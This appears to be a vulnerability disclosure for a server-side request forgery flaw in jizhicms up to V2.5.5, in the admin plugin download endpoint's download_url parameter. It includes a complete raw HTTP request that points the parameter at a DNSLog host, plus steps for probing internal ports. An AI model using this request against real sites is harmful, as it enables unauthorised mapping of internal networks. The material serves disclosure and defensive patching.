





# jizhicms<=V2.5.5-Plugins/update.html-download_url parameter-SSRF

## Supplier

https://www.jizhicms.cn/

## Description

Ultimate CMS aims to help netizens solve the troubles of using Ultimate CMS and the difficulties encountered in daily website building. SSRF exists

## POC

在扩展管理-插件列表-下载

Under "Extension Management - Plugin List - Download"

点击下载，然后抓包，通过download_url参数进行SSRF，可以探测内网的服务

Click to download, then perform packet capture. By using the `download_url` parameter for SSRF, you can probe internal network services

```
POST /index.php/admins/Plugins/update.html HTTP/1.1
Host: 192.168.24.65:1002
Content-Length: 87
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1002
Referer: http://192.168.24.65:1002/index.php/admins/Plugins/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close

action=start-download&filepath=apidata&download_url=http://d4e6c52cd5.ddns.1433.eu.org.
```

dnslog成功回显

DNSLog successfully echoed back



探测内网服务

Detecting internal network services

端口开启了，会有回显，回显如图所示

The port is open, and there will be a response as shown in the picture



端口没开启，会没有回显



## version

Vulnerabilities affect versions

jizhicms<=V2.5.5